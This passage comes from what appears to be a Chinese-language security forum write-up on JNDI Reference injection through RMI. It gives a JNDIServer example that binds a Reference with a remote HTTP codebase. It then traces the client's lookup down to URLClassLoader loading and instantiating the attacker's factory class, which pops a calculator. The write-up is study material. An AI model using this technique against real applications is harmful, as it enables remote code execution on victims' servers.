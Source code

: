 ```php
      */
    public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```

启一个JNDIServer，在testref.class文件所在的位置起一个http的web服务，将reference引用绑定在remoteOb上，然后在JNDIClient客户端访问，

```php
public class JNDIServer {
    public static void main(String[] args) throws Exception{
        LocateRegistry.createRegistry(1099);
        InitialContext initialContext = new InitialContext();
        Reference reference = new Reference("TestRef", "TestRef", "http://localhost:6666/");
        initialContext.rebind("rmi://localhost:1099/remoteOb",reference);
    }
}
```

适用场景就是当我们能控制服务端lookup的参数时，就可以访问恶意的对象。

接下来具体分析流程。在客户端跟进lookup方法。其实就是一系列的调用，过程如下图。

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-cd21a41cb0b76b3dcf057bdb3badfe2966f91c44.png)

这里获取到的对象是ReferenceWrapper\_Stub，并不是服务端绑定的Reference，这是因为服务端调用了一个encodeObject方法将Reference类转成了ReferenceWrapper，所以客户端获取到之后要decode。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-785f1a272429d2ff390ecae5469dc0c950aa3a90.png)

到这里的调用栈如下。

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-f02b6b1ad5438e9a3271556d65f70e9a946ed568.png)

decode之后就拿到了原先的Reference，同时在这个方法中调用了NamingManager.getObjectInstance()方法，跟进  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-641f3f7feff66409ff21acc66ac69efab74014c8.png)  
在319行调用了getObjectFactoryFromReference方法，从引用中获取对象工厂

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-c486744e5106b65905392cc8e6d77f02e445e3c2.png)  
这个方法中首先调用loadClass加载，调用AppClassLoader本机加载，此时是加载失败找不到的

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-fac90df2fdd7a1e4b4011b3c2ce9f43699a67969.png)

![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-dab932ed43d66f7f6d3abebc855c21c32556ba64.png)

接下来就是利用codebase查找，codebase就是上面提到Reference的factoryLocation，在调用loadClass加载  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-e3c565811d7a8c11ce55b7b99011e7c449e3de08.png)

把codebase传入URLClassLoader，利用loadClass加载  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-5ab9390dc6df9d1426a51a0afdc45e1bb204e837.png)  
这个里面就会对应初始化加载，对应URL下面的类。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-d5616442967841c6f0ff345428e88fc9efe42876.png)  
找到之后newInstance实例化，执行完这一步就可以弹出计算器了。  
![](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-dfc152a4d664598f8fffb2356e6e78e2fa734cac.png)
